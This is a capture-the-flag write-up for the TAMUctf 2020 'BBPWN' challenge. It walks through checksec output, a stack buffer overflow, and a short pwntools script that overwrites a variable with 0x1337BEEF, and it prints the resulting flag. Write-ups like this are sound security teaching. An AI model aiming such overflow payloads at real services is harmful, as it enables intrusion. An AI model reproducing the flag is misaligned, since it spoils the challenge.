



# BBPWN
Binary Explotation, 50 points

## Description
> Welcome to pwnland! 
> [bbpwn](https://tamuctf.com/files/dca18c2059db76506b4f40666a163f9c/bbpwn)

We'll check the binary protections, using `checksec`.

```console
yuvaly0@yuvalyo-blup:~/Desktop/ctf_not_git/2020_tamu/BBPWN_DONE$ checksec bbpwn
[*] '/home/yuvaly0/Desktop/ctf_not_git/2020_tamu/BBPWN_DONE/bbpwn'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

```

Hm, looks like he has all of his protections enabled, lets run the binary and see what were dealing with

```console
yuvaly0@yuvalyo-blup:~/Desktop/ctf_not_git/2020_tamu/BBPWN_DONE$ ./bbpwn 
Enter a string: bloop

The string "bloop" is lame.
```

Were prompt with an input to enter a string, after that its being printed, could it be `format string`?
Lets reverse the binary and take a look at the assembly




## Vulnerability

The vulnerability is *stack buffer overflow* 



## Solution

We got a bof, but looks like the program compares a variable to `0x1337BEEF` and if its equal it jumps to the `read_flag` function, thats what we want!

So, we want to overflow the buffer in order to write `0x1337BEEF` to `var_10`, lets take a look at the diffrence on the stack



Our string is `s` which it at -30h, The variable we intend to overwrite is at -10h.
The diffrence is 0x20, Lets try trigger the vulnerabilty

```python
from pwn import *
import sys

context.clear(os='linux')

__author__ = 'yuvaly0'

argv = sys.argv
binary_path = './bbpwn'
REMOTE = False
DEBUG = False

if len(argv) > 1:
	if argv[1] == 'remote':
		REMOTE = True
	if argv[1] == 'debug':
		DEBUG = True

if REMOTE:
	sh = remote('challenges.tamuctf.com', 4252)
else:
	sh = process([binary_path])

if DEBUG:
	gdb.attach(sh, '''
		b* main+103
		''')

e = ELF(binary_path)

# ------------- plan -----------
# overwrite variable using bof

overflow_offset = 32
value_we_want = 0x1337BEEF

payload = fit({
	overflow_offset: value_we_want
	})

sh.sendlineafter('Enter a string: ', payload)

print sh.recvline()
```

Output:

```console
yuvaly0@yuvalyo-blup:~/Desktop/ctf_not_git/2020_tamu/BBPWN_DONE$ python exploit.py remote
[+] Opening connection to challenges.tamuctf.com on port 4252: Done
[*] '/home/yuvaly0/Desktop/ctf_not_git/2020_tamu/BBPWN_DONE/bbpwn'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
Congratulations. Your string is not lame. Here you go: gigem{0per4tion_skuld_74757474757275}
```

Flag: gigem{0per4tion_skuld_74757474757275}
